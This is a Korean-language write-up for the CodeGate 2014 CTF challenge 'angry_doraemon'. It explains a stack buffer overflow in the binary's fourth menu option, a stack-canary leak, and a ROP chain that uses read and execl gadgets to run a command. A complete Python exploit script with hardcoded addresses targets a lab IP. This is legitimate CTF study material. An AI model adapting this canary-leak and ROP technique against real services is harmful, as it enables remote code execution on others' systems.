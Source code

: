 # angry_doraemon
### CodeGate 2014
***angry draemon은 코드게이트 2014 문제입니다!***

angry_doraemon을 실행하여 들어가 보면, 처음 2초 기다리라는 말과 함께 1~5까지 선택지가 나옵니다.

![Alt text]()

여기서 취약한 메뉴의 번호는 4번 입니다. 

![Alt text]()

4번에 들어가서 자세히 보면,

sub esp, 38 -> 0x38만큼 버퍼 생성

[ebp+buf] -> 입력 버퍼는 0x16부터 시작

[ebp+var_C] -> Canary

즉 22만큼 길이를 가지고 있습니다.

대충 정리해 보면 4[buf] + 6[unkonw?] + 4[canary] + 4[unkonw] + 4[fd]가 있습니다.

위의 buffer들 + SFP를하면 총 0x1A(26)만큼의 버퍼가 나오는데 read로 0x6E만큼 받아 오버플로우가 일어납니다.

└ read(fd, buf, 0x6E)

이제 익스플로잇 가젯들을 정리해보면
```
1. Canary 카나리
2. read_plt
3. execl_plt -> system함수를 leak해서 구해도 되지만 execl이 있어 그냥 사용하엿습니다.
4. pppr
5. bss 섹션
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 위 가젯들을 이용하여 익스플로잇 합니다.
       └ read_plt를 이용하여 /bin/ls\x00을 씁니다.
       └ raed_plt를 이용하여 /bin/ls\x00 뒤에 ls명령어를 씁니다.
       └ 그 후 execl을 이용하여 1번인자로 /bin/ls와 2번인자로 ls를 주고 실행합니다.
```

### 소스코드
Ubuntu 15 LTS 32bit 환경에서 테스팅 해보았습니다.
```
from socket import *
from struct import *
import time

p = lambda x: pack("<L", x)
up = lambda x: unpack("<L", x)[0]

def sendline(str) :
    s.send(str + "\n")

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8888))

bss = 0x804b080
write_plt = 0x80486E0
read_plt = 0x8048620
execl_plt = 0x8048710
pppr = 0x8048b2c
canary = 0xeede2600

cmd = "ls"
file = "/bin/ls" + '\x00'

print "[*]Exploit!"
print s.recv(1024)
time.sleep(3)
print s.recv(1024)

sendline('4')
print s.recv(1024)

#canary leak
'''
payload = ''
payload += 'y' + 'A' * 10
s.send(payload)

data = s.recv(1024)
print data
canary = "\x00" + data.split("AAAAAAAAAA")[1][0:3]
print "canary : " + hex(up(canary))

print "[+]END..."
s.close()
'''

#buffer overflow
payload = ''
payload += 'y' * 10
payload += p(canary) 
payload += 'A' * 12
#"/bin/sh" read
payload += p(read_plt)
payload += p(pppr)
payload += p(0x04) #fd
payload += p(bss)
payload += p(len(file) + 1)
#"ls" read
payload += p(read_plt)
payload += p(pppr)
payload += p(0x04) #fd
payload += p(bss + len(file) + 1)
payload += p(len(cmd))
#execl
payload += p(execl_plt)
payload += p(pppr)
payload += p(bss)
payload += p(bss + len(file) + 1)
payload += p(0x00)

s.send(payload)

s.send(file)
s.send(cmd)
print s.recv(1024)

sendline('6')
s.close()
```
